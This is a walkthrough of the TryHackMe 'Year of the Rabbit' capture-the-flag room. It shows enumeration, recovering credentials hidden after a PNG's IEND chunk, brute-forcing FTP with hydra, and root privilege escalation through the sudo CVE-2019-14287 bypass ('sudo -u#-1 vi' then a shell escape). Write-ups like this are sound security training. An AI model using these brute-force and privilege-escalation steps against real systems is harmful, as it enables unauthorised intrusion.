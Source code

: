 # Year of the Rabbit

**Room link:** https://tryhackme.com/room/yearoftherabbit

1. `nmap` reveals FTP, SSH and HTTP services on standard ports.

2. `gobuster` (with `SecLists/Discovery/Web-Content/common.txt`) on the web server reveals an interesting `/assets` directory. It contains a file `style.css` which contains a comment suggesting to check the page `/**REDACTED**.php`.

3. When checking this page, a JS alert tells us to turn off JS, we get redirected to youtube and rickrolled. Turning off JS leads to a different dead end where we still get rickrolled...

Sniffing the sequence of web requests with BurpSuite, we capture an intermediary redirection:
```
GET /intermediary.php?hidden_directory=**REDACTED** HTTP/1.1
```
seemingly revealing a possible hidden directory.

4. This directory indeed exists and contains a PNG image `Hot_Babe.png` of a [famous picture](https://en.wikipedia.org/wiki/Lenna).

```
$ exiftool Hot_Babe.png 
ExifTool Version Number         : 12.05
File Name                       : Hot_Babe.png
...
Warning                         : [minor] Trailer data after PNG IEND chunk
...
$ hd Hot_Babe.png | tail -81
00073ad0  4b ff 3f 61 68 c9 42 a5  46 15 38 00 00 00 00 49  |K.?ah.B.F.8....I|
00073ae0  45 4e 44 ae 42 60 82 4f  74 39 52 72 47 37 68 32  |END.B`.Ot9RrG7h2|
00073af0  7e 32 34 3f 0a 45 68 2c  20 79 6f 75 27 76 65 20  |~24?.Eh, you've |
00073b00  65 61 72 6e 65 64 20 74  68 69 73 2e 20 55 73 65  |earned this. Use|
00073b10  72 6e 61 6d 65 20 66 6f  72 20 46 54 50 20 69 73  |rname for FTP is|
00073b20  20 66 74 70 75 73 65 72  0a 4f 6e 65 20 6f 66 20  | ftpuser.One of |
00073b30  74 68 65 73 65 20 69 73  20 74 68 65 20 70 61 73  |these is the pas|
00073b40  73 77 6f 72 64 3a 0a 4d  6f 75 2b 35 36 6e 25 51  |sword:.Mou+56n%Q|
00073b50  4b 38 73 72 0a 31 36 31  38 42 30 41 55 73 68 77  |K8sr.1618B0AUshw|
...
$ strings Hot_Babe.png | cat -n
...
  6278  IEND
  6279  Ot9RrG7h2~24?
  6280  Eh, you've earned this. Username for FTP is ftpuser
  6281  One of these is the password:
  6282  Mou+56n%QK8sr
  6283  1618B0AUshw1M
...
$ strings Hot_Babe.png | tail -n+6282 > passlist
```
This gives us a login (`ftpuser`) and a list of possible passwords for the FTP.

5. We brute-force the FTP access with `hydra`.

```
$ hydra -l ftpuser -P passlist $TARGET_IP ftp 
...
[21][ftp] host: 10.10.**.***   login: ftpuser   password: **REDACTED**
1 of 1 target successfully completed, 1 valid password found
```

6. We access the FTP and find a file `Eli's_Creds.txt` containing a Brainfuck program.

```
$ bf Eli\'s_Creds.txt
User: eli
Password: **REDACTED**
```

7. We log in as `eli` through SSH. It is not a sudoer.

```
$ ssh eli@$TARGET_IP
...
1 new message
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE
...
eli@year-of-the-rabbit:~$ find / -name '*s3cr3t*' 2>/dev/null
/var/www/html/sup3r_s3cr3t_fl4g.php
/usr/games/s3cr3t
eli@year-of-the-rabbit:~$ cd /usr/games/s3cr3t/
eli@year-of-the-rabbit:/usr/games/s3cr3t$ ls -a
.  ..  .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just **REDACTED**
Honestly!

Yours sincerely
   -Root
```

8. We log in as `gwendoline` and get the **user flag** in the home directory.

```
gwendoline@year-of-the-rabbit:~$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
gwendoline@year-of-the-rabbit:~$ sudo --version
Sudo version 1.8.10p3
...
```

9. We can launch `vi` as any user but `root`, which can be exploited in `sudo` versions < 1.8.28 ([CVE-2019-14287](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287)) using the `#-1` user ID.

```
gwendoline@year-of-the-rabbit:~$ sudo -u#-1 vi /home/gwendoline/user.txt 
```

Inside `vi`, type `:!/bin/bash` to launch a shell as `root` and reach the **root flag**.

```
root@year-of-the-rabbit:/home/gwendoline# cat /root/root.txt 
**REDACTED**
```
